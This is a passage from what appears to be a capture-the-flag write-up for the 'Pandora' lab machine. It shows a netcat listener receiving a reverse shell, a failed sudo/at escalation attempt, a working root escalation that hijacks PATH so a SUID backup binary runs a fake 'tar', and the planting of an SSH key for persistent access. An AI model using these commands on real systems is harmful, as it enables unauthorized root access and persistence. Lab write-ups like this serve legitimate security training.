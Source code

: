 ```
❯ nc -lnvp 9042
listening on [any] 9042 ...
connect to [10.10.16.40] from (UNKNOWN) [10.10.11.136] 58356
bash: cannot set terminal process group (820): Inappropriate ioctl for device
bash: no job control in this shell
matt@pandora:/var/www/pandora/pandora_console/images$ echo "/bin/bash <$(tty) >$(tty) 2>$(tty)" | sudo /usr/bin/at now; tail -f /dev/null
<2>$(tty)" | sudo /usr/bin/at now; tail -f /dev/null  
sudo: PERM_ROOT: setresuid(0, -1, -1): Operation not permitted
sudo: unable to initialize policy plugin
bash: [12152: 1 (255)] tcsetattr: Inappropriate ioctl for device*-
```

> This is not working...

#### Exploit

There's other interesting binary called **pandora_backup** and have SUID bit.

When we execute it, it gives us:

```
tar: /root/.backup/pandora-backup.tar.gz: Cannot open: Permission denied
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
Backup failed!
Check your permissions!
```

In order to fix this, I create an executable "tar", and then add the path of this executable. 

```
matt@pandora:~$ echo "/bin/bash" > tar
matt@pandora:~$ chmod +x tar
matt@pandora:~$ export PATH=$(pwd):$PATH
matt@pandora:~$ /usr/bin/pandora_backup 
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
root@pandora:~#
```

> I really need help in this part, and I also need to move netcat to ssh because the shell was blocking everything from me...

#### NC to SSH

This is how it is done: 

```
**netcat**
$ ssh-keygen -t rsa
$ cat id_rsa.pub > authorized_keys
**our machine**
# copy the content of id_rsa
$ ssh -i id_rsa matt@10.10.11.136
```
